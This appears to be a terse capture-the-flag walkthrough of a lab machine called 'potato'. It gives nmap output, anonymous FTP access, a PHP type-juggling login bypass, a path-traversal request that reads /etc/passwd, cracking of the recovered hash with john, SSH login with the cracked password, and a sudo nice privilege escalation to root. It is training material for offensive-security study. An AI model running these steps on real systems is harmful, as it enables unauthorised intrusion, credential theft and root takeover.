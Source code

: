 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# potato
# 6/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Potato company
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2 19:33 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2 18:17 welcome.msg



ftp -P 2112 192.168.82.101
email anonymous@192.168.1.4]
cat index.php.bak 
pass = potato
password[]=""  \\ php jungling

after logging as admin

burp on downloading lg.txt

POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.82.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://192.168.82.101
Connection: close
Referer: http://192.168.82.101/admin/dashboard.php?page=log
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Upgrade-Insecure-Requests: 1

file=../../../../../../etc/passwd

got hash
$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

john -w=/usr/share/wordlists/rockyou.txt hash
login with ssh
webadmin:dragon

sudo -l
cd /notes/
echo "/bin/bash" >> root.sh
chmod +x root.sh 
sudo /bin/nice /notes/../home/webadmin/root.sh
```
